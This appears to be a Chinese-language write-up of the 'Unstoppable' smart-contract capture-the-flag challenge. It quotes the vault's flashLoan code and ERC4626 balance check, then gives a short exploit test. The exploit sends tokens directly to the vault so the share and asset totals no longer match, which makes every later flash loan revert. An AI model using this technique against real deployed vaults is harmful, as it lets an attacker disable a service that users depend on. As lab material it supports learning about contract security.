 ```js
        // callback must return magic value, otherwise assume it failed  
        if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))  
            revert CallbackFailed();  
        // pull amount + fee from receiver, then pay the fee to the recipient  
        ERC20(\_token).safeTransferFrom(address(receiver), address(this), amount + fee);  
        ERC20(\_token).safeTransfer(feeRecipient, fee);  
        return true;  
    }
```

观察其中：

```js
uint256 balanceBefore = totalAssets();  
if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

结合经济代币模型:**assets**表示用户从Vault仓库(可以理解为代币池)中存入和取出的基础代币DAT, Shares表示存入DVT后获得的根据比例获得的oDVT

`asset`是资产底层通证 `share`就是股权通证 在本题合约中是1:1兑换的

```js
// unstoppable.challenge.js  
const TOKENS\_IN\_VAULT = 1000000n \* 10n \*\* 18n;  

await token.approve(vault.address, TOKENS\_IN\_VAULT);  
await vault.deposit(TOKENS\_IN\_VAULT, deployer.address);
```

根据ERC4626代币标准[ERC-4626 代币化资金库标准 | ethereum.org](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/)

·totalSupply只能通过 [mint](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/#mint) 和 [deposit](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/#deposit) 方法将代币存入资金库之前发出

·balanceBefore 可通过 DVT 的 transfer 增加

其实这道题目就是让 `convertToShares(totalSupply) != balanceBefore`

那么我们就可以通过直接调用token.transfer 这样就不会使share发生改变,那么两者就不相等了

那么我们可以直接调用unstoppable.challenge.js中 const INITIAL\_PLAYER\_TOKEN\_BALANCE = 10n \* 10n \*\* 18n; 来使不相等,也可以直接发送代币来使之不相等,数额大小无所谓。

Exp:

```js
//unstoppable.challenge.js  
    it('Execution', async function () {  
        /\*\* CODE YOUR SOLUTION HERE \*/  
        // token = token.connect(player);  
        // await token.transfer(vault.address, 一个数值或者调用INITIAL\_PLAYER\_TOKEN\_BALANCE);  
        await token.connect(player).transfer(vault.address, 任意数值 比如1)  
    });
```
